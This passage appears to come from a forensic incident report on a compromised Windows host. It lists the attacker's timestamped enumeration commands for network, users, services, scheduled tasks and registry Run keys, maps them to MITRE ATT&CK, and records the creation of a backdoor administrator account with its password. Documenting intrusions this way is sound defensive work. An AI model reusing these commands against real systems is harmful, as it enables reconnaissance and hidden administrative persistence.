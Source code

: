 **Network Enumeration:**
```
Commands:
- netsh interface show interface (Network adapters)
- ipconfig /displaydns (DNS cache - identify previously contacted domains)
- netstat -anob (Active network connections and listening ports)
Time: 11:12:13 AM
Purpose: Map network configuration and active connections
```

**User Account Enumeration:**
```
Commands:
- wmic useraccount get name,sid (All user accounts with SIDs)
- net user (Local user accounts)
Time: 11:12:13-14 AM
Purpose: Identify potential accounts for lateral movement
```

**Service and Task Enumeration:**
```
Commands:
- sc query type= service state= all (All services)
- schtasks /query /fo CSV /v (All scheduled tasks)
Time: 11:12:14 AM
Purpose: Identify security products and potential persistence locations
```

**Registry Enumeration:**
```
Commands:
- reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
- reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
- reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Uninstall
Time: 11:12:17 AM
Purpose: Identify installed software and existing persistence mechanisms
```

**MITRE ATT&CK Mapping:**
- **T1082** - System Information Discovery
- **T1016** - System Network Configuration Discovery
- **T1049** - System Network Connections Discovery
- **T1033** - System Owner/User Discovery
- **T1007** - System Service Discovery
- **T1012** - Query Registry
- **T1518** - Software Discovery

---

#### 2.2.2 Privilege Escalation - Backdoor Account Creation

**Account 1: SYSTEM_SERVICE**
```
Creation Command: net user SYSTEM_SERVICE Svc@Admin#99 /add
Privilege Escalation: net localgroup Administrators SYSTEM_SERVICE /add
Time: 11:12:17 AM
PIDs: 9776 (creation), 2336 (privilege escalation)
```
